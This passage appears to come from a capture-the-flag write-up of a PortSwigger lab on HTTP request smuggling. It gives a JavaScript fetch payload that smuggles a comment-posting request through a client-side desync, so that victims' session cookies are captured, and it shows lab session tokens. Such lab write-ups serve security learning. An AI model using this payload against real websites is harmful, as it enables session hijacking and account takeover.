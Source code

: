 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144249.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144254.png)

Nice! We can capture any users' session cookie!

**Before we send the above payload to victim, let's test it first:**

**Payload:**
```js
fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net/', {
    method: 'POST',
    body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net\r\nCookie: session=E4JOQg3Yw8TCcboDgbxPSXniXUhi3xPV; _lab_analytics=byZLPF2FM2lpAH83Zz10U7gegQLjKUOJ5EqrlWt6lJSDmy1MspH8ivSU2LDwwlBnQyc4KKombwOqK47ap4jiLqNvYPXKRYhK2TvoyMHnw0HQw8boBEskuySc50lCaIr0K2oOceavIp2n7qn6YKkLoAtfdcsvl7IMwNbJnpZXuK2cIdQ6VXMo6NNQU9AdPMPwJg3tEV0pPMNvg5LNiDDkng8HIOaZDWXrZdKN638WfavVs3dqnxIXalYJZ9qunper\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ad2JMc779PxfzUrbiVP2FIz4QrGCCwt3&postId=2&name=tester&email=test@test.com&website=&comment=', // malicious prefix
    mode: 'cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).catch(() => {
        fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
```